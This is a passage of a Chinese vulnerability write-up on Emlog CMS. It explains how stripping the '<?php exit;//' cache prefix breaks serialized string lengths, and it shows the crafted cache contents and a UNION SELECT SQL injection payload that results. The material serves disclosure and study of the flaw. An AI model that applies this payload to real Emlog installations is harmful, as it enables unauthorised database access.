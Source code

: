 此时写入缓存的内容为（需要注意i后面跟的是文章id，因为这里复现了很多次所以截图中id为17，18）：

```php
<?php exit;//a:2:{i:1;s:13:"<?php exit;//";i:2;s:109:"";s:93:"0 union select 1,user(),'1','','','','',1,-1,'blog',1,1,0,'n','n','n','y','y','','','','',''#";s:1:"x";}
```

![image-20231127171126192](assets/1702521318-2a6a64d07abe5b168a1ceb10382abfe1.jpg)

经过读取缓存反序列化的字符串为（<?php exit;//会被替换为空）：

```php
a:2:{i:1;s:13:"";i:2;s:109:"";s:93:"0 union select 1,user(),'1','','','','',1,-1,'blog',1,1,0,'n','n','n','y','y','','','','',''#";s:1:"x";}
```

反序列化后执行的结果如下：

```php
";i:5;s:109:"
"0 union select 1,user(),'1','','','','',1,-1,'blog',1,1,0,'n','n','n','y','y','','','','',''#"
```

最后通过触发缓存实现sql注入：

![image-20231127171604378](assets/1702521318-80e603032ff242f2fa1d677accb423d2.jpg)

### 漏洞分析

Emlog的缓存机制为：将网站运行的数据以php序列化的方式写入缓存保存为php文件后，下一次读取的时候反序列化文件后读取保存的缓存。

写入读取缓存部分代码如下：

cacheWrite()方法用于将缓存数据写入文件。先构建缓存文件路径，写入的时候会在缓存数据前面加上代码：<?php exit;//，用于防止直接访问缓存文件。写入缓存文件后会调用全局变量 $this->{$cacheName . '\_cache'}，清空对应的缓存变量。等下一次再写入缓存时会进行堆叠，并将写入的缓存以数组的形式按照顺序排列。
